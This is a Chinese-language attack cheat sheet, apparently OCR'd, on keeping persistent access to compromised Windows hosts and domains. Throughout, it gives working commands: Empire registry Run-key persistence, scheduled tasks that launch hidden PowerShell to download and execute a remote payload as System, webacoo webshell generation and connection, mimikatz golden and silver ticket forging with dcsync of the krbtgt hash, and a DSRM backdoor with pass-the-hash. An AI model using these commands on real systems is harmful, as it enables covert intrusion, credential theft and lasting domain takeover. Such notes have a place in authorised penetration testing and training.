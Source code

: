 # 操作系统后门
## 注册表后门
在普通用户权限下，攻击者会将需要执行的后门程序或者脚本路径填写到注册表键
HKCU:Software\Microsoft\Windows\CurrentVersion\Run中（键名可以随意设置）
下载 git clone https://github.com/EmpireProject/Empire.git 
cd empire/setup
./install.sh
./reset.sh
./empire
使用empire获得shell后，输入命令:usemodule persistence/userland/registry
设置参数：
set Listener shuteer
set RegPath HKCU:Software\Microsoft\Windows\CurrentVersion\Run
excute
当目标机管理员登录系统时，后门就会运行，服务端反弹成功
## 计划任务后门
在目标机上运行命令：
Schtasks /create /tn NAME /tr C:\notepad.exe /sc hourly /mo 1
每小时执行notepad.exe

使用msf模拟计划任务后门
在目标机的计划任务种添加以下命令之一：
用户登录：schtasks /create /tn WindowsUpdate /tr 
“c:\windows\system32\powershell.exe –WindowsStyle hidden –NoLogo –
NonInteractive –ep bypass –nop –c ‘IEX((new-object net.webclient) 
.downloadstring(‘’http://192.168.1.1:8080/’’’))’” /sc onlogon /ru System
系统启动：schtasks /create /tn WindowsUpdate /tr 
“c:\windows\system32\powershell.exe –WindowsStyle hidden –NoLogo –
NonInteractive –ep bypass –nop –c ‘IEX((new-object net.webclient) 
.downloadstring(‘’http://192.168.1.1:8080/’’’))’” /sc onstart /ru System

# Web后门

## Webacoo后门
进入webacoo，执行以下命令生成webshell：webacoo –g –o /root/test.php
将test.php上传到目标服务器，然后再浏览器中访问webshell网址。
连接webshell命令：
Webacoo –t –u http://192.168.150.12/test.php
连接成功后会生成一个仿真终端
# 域控制器后门
1， kerberos协议简介
https://web.mit.edu/kerberos/
Kerberos是一种计算机网络认证协议，它允许某实体在非安全网络环境下通信，向另一个实体以一种安全的方式证明自己的身份。它也指由麻省理工实现此协议，并发布的一套免费软件。

2，黄金票据
它用于拿下域控主机后的权限维持，krbtgt 账户的密码基本不会更改。
Client通过了第一次AS认证后，返回给TGT用于第二次认证，通过伪造TGT跳过AS
认证，直接进行第二次认证，从而和任意server进行通信。
原理分析：
kerberos第二次认证发送的KBR_TGS_REQ由二部分组成：Session-Key as 加密
数据(timestamp、Client-info、Server-info)和TGT
TGS并没有保存Session-Key as的值，因此可以随意构造Session-Key as，再利用
krbtgt 用户的Hash对TGT进行伪造

使用条件：
1、域名称
2、域的SID
3、域的krbtgt账户的密码 hash 值 4、伪造的用户名，可以是任意用户，通常是administrator

使用过程：
在域控上执行：lsadump::dcsync /domain:tys1.com /user:krbtgt
拿下域控了，为了持续控制，所以制作黄金票据
kerberos::purge 清空票据缓存
kerberos::golden /admin:Administrator /domain:tys1.com /sid:S-1-5-21-
1099985034-2841047208-2119089303 
/krbtgt:00b40d0e91166983fb458afa91955e85 /ticket:Administrator.kiribi
执行成功后生成一个Administrator.kiribi文件
kerberos::ptt Administrator.kiribi //导入该文件
Klist 查看缓存的票证
接下来使用ptt或者pscexec.exe获得cmd


3，白银票据
1、域名称
2、域的 SID
3、域中Server服务器账户的NTLM-Hash
4、伪造的用户名(可以是任意的)
用于拿下一台域内主机后的权限维持

利用过程：
mimikatz log “privilege::debug” “sekurlsa::logonpasswords” //获取NTLM Hash
伪造共享服务cifs：
kerberos::purge 清除票据缓存
kerberos::golden /domain:tys1.com /sid: S-1-5-21-1099985034-2841047208-
2119089303 /target:DC.tys1.com /service: cifs /rc4: 
e654484b8880922b957d62dc36d93e17 /user:administrator /ptt exit
1. /domain：域名
2. /sid：SID值
3. /target: 目标计算机全名
4. /service: 需要指定相关的服务名，此处为cifs
5. /rc4: 域控的计算机ntlm hash
6. /user: 要伪造的用户名，任意填写


4，DSRM后门简介
DSRM（Directory Services Restore Mode，目录服务恢复模式）是windows域环
境中域控制器的安全模式启动选项。每个域控制器都有一个本地管理员账户（也就
是DSRM账户）
DSRM的用途是：允许管理员在域环境中出现故障或崩溃时还原、修复、重建活动
目录数据库，使域环境的运行恢复正常。
在渗透测试中可以使用DSRM账号对域环境进行持久化操作。

修改DSRM密码
NTDSUTIL 打开ntdsutil
Set dsrm password 设置DSRM密码
Reset password on server null 在当前域控制器上恢复DSRM密码
<password> 修改后的密码
q 退出DSRM密码设置模式
q 退出ntdsutil
如果域控制器的系统版本为windows server 2008（已安装KB961320）及以上，可
以将DSRM密码同步为已存在的域账号密码。
NTDSUTIL SET DSRM PASSWORD SYNC FROM DOMAIN ACCOUNT 
domain username
q

实验操作：
在域控制器打开mimikatz，输入以下命令：
Privilege::debug
Lsadump::lsa /patch /name:krbtgt 查看krbtgt的NTLM Hash
Token::elevate
Lsadump::sam 查看并读取SAM文件中本地管理员的NTLM Hash
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN account krbtgt
qq 将DSRM账号和krbtgt的NTLM Hash同步

Lsadump::sam 查看DSRM的NTLM Hash是否同步成功
使用powershell修改DSRM登录方式：New-ItemProperty
“hklm:\system\currentcontrolset\control\lsa\” –name “dsrmadminlogonbehavior” –
value 2 –propertyType DWORD
使用dsrm登录远程域控制器：privilege::debug
Sekurlsa::pth /domain:DC /user:administrator /ntlm:NTLMHASH 已经成功持久
Lsadump::dcsync /domain:af.com /dc:dc /user:krbtgt